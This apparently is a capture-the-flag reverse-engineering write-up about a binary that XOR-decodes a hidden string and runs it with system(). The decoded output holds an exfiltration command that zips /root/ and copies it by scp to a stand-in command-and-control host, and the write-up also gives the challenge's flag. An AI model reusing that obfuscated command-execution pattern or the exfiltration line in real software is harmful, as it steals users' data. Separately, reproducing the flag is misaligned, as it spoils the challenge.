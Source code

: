 ```php
  somearray[0x42] = 0x11;
  somearray[0x43] = 0x41;
  somearray[0x44] = 0;
  somearray[0x45] = 0xe;
  somearray[0x46] = 0xe;
  somearray[0x47] = 0x15;
  somearray[0x48] = 0x33;
  somearray[0x49] = 2;
  somearray[0x4a] = 0x53;
  somearray[0x4b] = 0x4f;
  somearray[0x4c] = 0x19;
  local_36 = 0x72;
  local_15 = 0x72;
  local_35 = 0x65;
  local_14 = 0x65;
  local_34 = 0;
  local_13 = 0;
  puts(&sent1);
  puts(&sent2);
  FUN_00101169(local_10,&sent1);
  return 0;
}
```

```php
void FUN_00101169(char *param_1)

{
  char *__command;
  size_t sVar1;
  int local_1c;
  
  __command = (char *)malloc(0xa8);
  local_1c = 0;
  while( true ) {
    sVar1 = strlen(param_1);
    if (sVar1 <= (ulong)(long)local_1c) break;
    __command[local_1c] = param_1[local_1c] ^ *(byte *)(local_1c + somearray);
    local_1c = local_1c + 1;
  }
  system(__command);
  return;
}
```

The first function seems to act as a set-up function by defining a global array with each index being equal to a hexadecimal value and passing the second function a seemingly random string. The second function then uses these and some local variables to make a command that gets executed by the system. We can reconstruct these functions in C.
You can find my script in reverse.c in this github. When I run my script I get the following output:

```php
└─$ ./a.out 
echo "Nope";v1="CTF{C0n7r0Ll1NG_";zip -r exf.zip /root/;scp exf.zip root@c2.maldomain.del:/yeet_data/;v2="5h3_5uppLy_";rm exf.zip;v3="Ch41n_15_7h3_K#Y!!!!}";echo "GG";
```

revealing that our key is CTF{C0n7r0Ll1NG_5h3_5uppLy_Ch41n_15_7h3_K#Y!!!!}
